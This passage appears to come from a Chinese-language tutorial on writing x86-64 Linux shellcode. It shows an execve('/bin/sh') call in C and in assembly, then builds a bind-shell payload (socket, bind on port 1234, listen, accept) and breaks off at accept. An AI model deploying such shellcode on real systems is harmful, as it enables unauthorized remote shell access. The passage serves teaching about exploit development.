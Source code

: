 然后，我们添加我们的`execve`系统调用：

```
char * const argv[] = {"sh",NULL, NULL};
execve("/bin/sh", argv, NULL);
return 0;

xor rax, rax
push rax
mov rdx, rsp
mov rbx, 0x68732f6e69622f2f
push rbx
mov rdi, rsp
push rax
push rdi
mov rsi,rsp
add rax, 59
syscall
```

现在，一切都准备就绪；让我们把所有的部分放在一起写成一段代码：

```
global _start

section .text

_start:

;Socket syscall
    xor rax, rax
    add rax, 41
    xor rdi, rdi
    add rdi, 2
    xor rsi, rsi
    inc rsi
    xor rdx, rdx
    syscall

; Save the sockfd in RDI Register 
    mov rdi, rax

;Creating the structure 
    xor rax, rax 
    push rax
    push word 0xd204
    push word 0x02
;Bind syscall
    mov rsi, rsp
    xor rdx, rdx
    add rdx, 16
    xor rax, rax
    add rax, 49
    syscall

;Listen syscall
    xor rax, rax
    add rax, 50
    xor rsi , rsi
    inc rsi
    syscall

;Accept syscall
    xor rax , rax
    add rax, 43
```
